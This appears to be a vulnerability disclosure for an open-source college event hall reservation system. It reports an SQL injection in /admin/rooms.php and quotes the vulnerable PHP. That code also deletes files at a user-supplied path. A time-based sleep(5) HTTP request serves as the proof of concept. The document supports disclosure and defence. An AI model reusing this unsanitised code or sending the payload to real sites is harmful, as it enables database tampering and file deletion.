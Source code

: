 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - SQL Injection rooms.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
> 
## Affected Component
> /admin/rooms.php

## Code
```php
if (isset($_GET['room_id'])) {
    $rid = $_GET['room_id'];
    $sql = "DELETE FROM tbl_rooms WHERE room_id = $rid";
    $result = $conn->query($sql);
    $img_name = $_GET['img_name'];
    $path = "../images/" . $img_name;
    $remove = unlink($path);
}
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/rooms.php?room_id=sleep(5) HTTP/1.1
Host: [REDACTED]
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/1552ce7d-bb51-473f-85e2-9f2763b331e8)


